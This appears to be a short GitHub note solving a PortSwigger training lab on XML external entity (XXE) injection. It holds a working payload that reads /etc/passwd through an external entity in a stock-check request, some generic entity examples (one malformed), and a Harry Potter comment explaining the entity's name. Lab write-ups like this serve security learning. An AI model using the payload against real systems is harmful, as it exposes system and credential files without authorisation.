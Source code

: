 Lab: Exploiting XXE using external entities to retrieve files\
https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

XXE exlaintion: https://portswigger.net/web-security/xxe

<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&aparecium;
</productId>










examples:
&payload; = <!doctype foo [ <!entity "payload" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>




<!-- Aparecium (Revealing Charm)
Aparecium.jpg
Type: Charm
Pronunciation: AH-par-EE-see-um
Description: Reveals secret messages written in invisible ink, or any other hidden markings. Also works against Concealing charms
Seen/Mentioned: Used (to no avail) in 1993 by Hermione Granger to attempt to reveal any hidden writing in a diary.
Etymology: Latin apparere, meaning "to appear"; -ium and -cium are common Latin noun endings.  -->